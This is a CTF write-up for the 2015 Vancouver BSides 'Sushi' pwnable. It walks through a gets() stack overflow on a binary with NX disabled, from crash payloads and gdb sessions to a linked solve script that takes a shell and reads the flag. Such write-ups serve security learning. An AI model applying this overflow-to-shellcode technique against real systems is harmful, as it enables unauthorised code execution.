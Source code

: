 # Vancouver BSides CTF 2015: Sushi

**Category:** Ownable
**Points:** 100
**Solves:** 101
**Description:** 

> sushi.termsec.net 4000
> 
> Sushi is great in Vancouver. It's cheap, it's delicious, and it's everywhere.
> 
> Read flag.txt
> 
> [sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8](sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8)

## Write-up

This writeup is based on following writeups:

* <https://github.com/yvrctf/2015/tree/master/sushi>
* <https://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/> (down) ([cached](https://web.archive.org/web/20150625064545/http://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/)) or <http://www.tuicool.com/articles/uieaeaq>
* <http://capturetheswag.blogspot.com.au/2015/03/vancouver-bsides-2015-sushi-pwnable.html>
* <https://ctf-team.vulnhub.com/bsides-vancouver-2015-sushi/> or <http://barrebas.github.io/blog/2015/03/18/bsides-vancouver-ctf-sushi/>
* <https://akshayswebspace.wordpress.com/tag/writeup/>

### Meta

Keywords:

* Stack Overflow in `gets`

We are given a stripped x86-64 bit for Linux:

```bash
$ file sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=ecf8d3deb9274a9ce4ab4532469a1f3027534d92, stripped
```

Running it:

```bash
$ ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
Deposit money for sushi here: 0x7fff53177780
100
Sorry, $0.49 is not enough.
```

`checksec` tells us that no security is enabled:

```bash
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

Since `NX` is disabled, we might be able to push shellcode to the stack using a stack overflow and execute it.
However, we might have to deal with ASLR.

Decompiling the binary's `main` using `radare2`:

![](./main.png)

Since the binary is stripped, we don't see any other functions that might be of interest:

```bash
[0x004004a0]> aa
[0x004004a0]> afl | sort -k1 | column -t
0x00400450  16  2  sym.imp.printf
0x00400460  16  2  sym.imp.__libc_start_main
0x00400480  16  2  sym.imp.gets
0x00400490  16  2  sym.imp.fflush
0x004004a0  42  1  entry0
0x00400596  93  1  main
```

Having the [64-bit C calling convention order](http://stackoverflow.com/a/4266083) in mind, the code becomes pretty straightforward:

```C
&buf = rbp-0x40;
printf("Deposit money for sushi here: %p\n",buf);
fflush(0); // 0 == stdin
buf = gets(buf);
printf("", "Sorry, $0.%d is not enough.\n", buf[0]);
fflush(0);
```

This tells us two things:

* The address to our input buffer is leaked, rendering ASLR irrelevant
* Since `gets` is used without any preceding input length check, we can smash the stack and overwrite the return instruction pointer RIP to point to our shellcode

We test our hypothesis:

* Set `ulimit -c unlimited` to create core dumps after a segementation fault. [Source](http://stackoverflow.com/questions/2919378/how-to-enable-core-dump-in-my-linux-c-program) and [here](https://wiki.archlinux.org/index.php/Core_dump)
* `echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope` - Didn't work without - used it to make gdb attach work [Source](http://askubuntu.com/questions/41629/after-upgrade-gdb-wont-attach-to-process)
* Overflow the buffer, generating a core dump:
```bash
$ python -c 'print "A"*0x40+"ARBPARBP"+"BBBBCCCC"' | ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8                                           
Deposit money for sushi here: 0x7fff11e90620
Sorry, $0.65 is not enough.
Segmentation fault (core dumped)
$ ls
core  peda-session-sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8.txt  sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8
$ file core
core: ELF 64-bit LSB  core file x86-64, version 1 (SYSV), SVR4-style, from './sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'
```
* Analyse it using gdb: `gdb -q ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 core`:
```bash
$ gdb -q ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 core

Reading symbols from ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8...(no debugging symbols found)...done.

warning: core file may not match specified executable file.
[New LWP 2468]
Core was generated by `./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00000000004005f2 in ?? ()
gdb-peda$ x/i $rip
=> 0x4005f2:    ret    
gdb-peda$ x/2wx $rsp
0x7fff11e90668: 0x42424242      0x43434343
```

We see that a Segmentation fault happened at the `ret` instruction of our main function. `rsp` points at the next address that `rip` has to jump to, which is (64 bit == 8 bytes address) `0x4242424243434343` (Hope I got the order right).

You can also just load the binary in `gdb-peda`, run it, provide it with the payload string `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAARBPARBPBBBBCCCC` and see the status of our stack at the end of the main function (last 2 instructions):

```bash
$ gdb ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
Reading symbols from ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8...(no debugging symbols found)...done.
gdb-peda$ b *0x004005f1
Breakpoint 1 at 0x4005f1
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/bsides/sushi/sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
Deposit money for sushi here: 0x7fffffffe390
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAARBPARBPBBBBCCCC
Sorry, $0.65 is not enough.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
[...]
RBP: 0x7fffffffe3d0 ("ARBPARBPBBBBCCCC")
RSP: 0x7fffffffe390 ('A' <repeats 65 times>, "RBPARBPBBBBCCCC")
RIP: 0x4005f1 (leave)
[...]
[-------------------------------------code-------------------------------------]
   0x4005e2:    mov    edi,0x0
   0x4005e7:    call   0x400490 <fflush@plt>
   0x4005ec:    mov    eax,0x0
=> 0x4005f1:    leave  
   0x4005f2:    ret    
   0x4005f3:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4005fd:    nop    DWORD PTR [rax]
   0x400600:    push   r15
[...]
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe390 ('A' <repeats 65 times>, "RBPARBPBBBBCCCC")
[...]
gdb-peda$ x/20wx $rbp
0x7fffffffe3d0: 0x50425241      0x50425241      0x42424242      0x43434343
[...]
gdb-peda$ ni
[...]
RBP: 0x5042524150425241 ('ARBPARBP')
RSP: 0x7fffffffe3d8 ("BBBBCCCC")
RIP: 0x4005f2 (ret)
[...]
[-------------------------------------code-------------------------------------]
   0x4005e7:    call   0x400490 <fflush@plt>
   0x4005ec:    mov    eax,0x0
   0x4005f1:    leave  
=> 0x4005f2:    ret    
   0x4005f3:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4005fd:    nop    DWORD PTR [rax]
   0x400600:    push   r15
   0x400602:    mov    r15d,edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe3d8 ("BBBBCCCC")
gdb-peda$ ni
[...]
Stopped reason: SIGSEGV
```

You'll see that `leave` is correspondent to "Move saved `rbp` to `rsp`", meaning `mov rsp, [rbp+8]` and `ret` is correspondent to `pop rip`.

All that's left to do now is find a shellcode that fits for `gets` (function is null byte `\x00` friendly), which is smaller than `0x48`==`72` bytes and set RIP to our input buffer address, leaked by the program itself!

[This python script](./solve.py) does the job:

```bash
$ p solve.py 
[+] Started program './sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'
[*] Switching to interactive mode
Sorry, $0.49 is not enough.
$ cat flag.txt
flag{I_l3ft_my_wallet_in_#irc}
[*] Stopped program './sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'
```


## Other write-ups and resources

* <https://github.com/yvrctf/2015/tree/master/sushi>
* <https://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/> (down) ([cached](https://web.archive.org/web/20150625064545/http://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/)) or <http://www.tuicool.com/articles/uieaeaq>
* <http://capturetheswag.blogspot.com.au/2015/03/vancouver-bsides-2015-sushi-pwnable.html>
* <https://ctf-team.vulnhub.com/bsides-vancouver-2015-sushi/> or <http://barrebas.github.io/blog/2015/03/18/bsides-vancouver-ctf-sushi/>
* <https://akshayswebspace.wordpress.com/tag/writeup/>
* [Japanese](http://mage-ctf-writeup.blogspot.jp/2015/03/b-sides-vancouver-2015.html)
* [Japanese 2](http://charo-it.hatenablog.jp/entry/2015/03/18/234404)
* [Korean?](http://revers3r.tistory.com/27)
* [Korean](http://s0ngsari.tistory.com/entry/yvrctfPwnable-100)
* <http://captf.com/2015/bsides-vancouver/ownable/sushi-psifertex-solve.py>
* <https://gist.github.com/emyei/248ccf0aa4b773aa17a7>
* <http://smleenull.tistory.com/521>